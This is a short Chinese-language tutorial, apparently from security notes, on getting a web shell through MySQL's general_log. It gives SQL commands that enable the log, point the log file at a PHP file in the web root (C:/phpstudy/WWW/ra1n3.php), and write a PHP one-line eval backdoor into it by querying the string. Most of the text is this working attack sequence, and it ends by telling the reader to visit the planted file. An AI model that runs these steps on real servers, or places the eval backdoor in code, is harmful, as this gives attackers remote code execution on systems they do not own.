






general_log 默认关闭

开启它可以记录用户输入的每条命令，会把其保存在对应的日志文件中。可以尝试自定义日志文件，并向日志文件里面写入内容的话，那么就可以成功 getshell


查看当前配置

```
SHOW VARIABLES LIKE 'general%';
```




开启日志

```
SET GLOBAL general_log = 'on'
```




修改数据库日志文件路径

```
SET GLOBAL general_log_file = 'C:/phpstudy/WWW/ra1n3.php'
```




验证当前状态

```
SHOW VARIABLES LIKE 'general%'
```




尝试写入一句话木马

```
SELECT "<?php @eval($_POST['ra1n3']);?>"
```




访问ra1n3.php

